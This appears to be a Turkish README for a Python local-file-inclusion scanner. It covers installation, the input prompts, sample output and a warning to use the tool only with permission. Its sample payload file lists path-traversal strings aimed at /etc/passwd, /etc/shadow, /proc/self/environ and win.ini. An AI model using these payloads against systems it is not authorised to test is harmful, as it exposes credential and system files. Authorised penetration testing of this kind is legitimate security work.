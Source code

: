 
# 🕵️‍♂️ LFI Scanner (Local File Inclusion Vulnerability Scanner)

Bu Python aracı, web uygulamalarında **LFI (Local File Inclusion)** güvenlik açıklarını taramak için geliştirilmiştir. Basit ama etkili bir şekilde belirli bir URL ve parametre üzerinde LFI payload'larını deneyerek zafiyet olup olmadığını kontrol eder.

---

## 🚀 Kurulum

### Gereksinimler
- Python 3.6+
- `requests` ve `colorama` kütüphaneleri

### Kurulum Adımları

```bash

https://github.com/vedattascier/lfi.py.git
cd LFI-Scanner
pip install -r requirements.txt
```

---

## ⚙️ Kullanım

```bash
python lfi.py
```

Program çalıştıktan sonra senden şu bilgileri ister:

- 🔗 **Hedef URL** (örn: `http://example.com/page.php`)
- 🧩 **Parametre İsmi** (örn: `file`)
- 📄 **Payload Dosyası** (örn: `lfi_payloads.txt`)

### Örnek:

```bash
python lfi_scanner.py
```

```plaintext
Hedef URL'yi girin: http://example.com/view.php
Parametre adını girin: page
Payload dosyasının adını girin: lfi_payloads.txt
```

---

## 📝 Payload Dosyası Formatı (`lfi_payloads.txt`)

Her satırda bir payload olacak şekilde hazırlanmalıdır. Örnek içerik:

```
../../../../etc/passwd
../../../../../../windows/win.ini
....//....//....//....//etc/shadow
../../../../proc/self/environ
```

---

## 🔍 Örnek Çıktı

```plaintext
[i] Scanning http://example.com/view.php with param 'page'...
[+] Vulnerable: http://example.com/view.php?page=../../../../etc/passwd
[-] Error accessing: http://example.com/view.php?page=....//....//proc/self/environ
```

---

## 🛡️ Güvenlik Notu

Bu araç sadece **eğitim** ve **pentest** amaçlı kullanılmalıdır. İzin almadan bir sisteme uygulamak **yasal suçtur**.

---


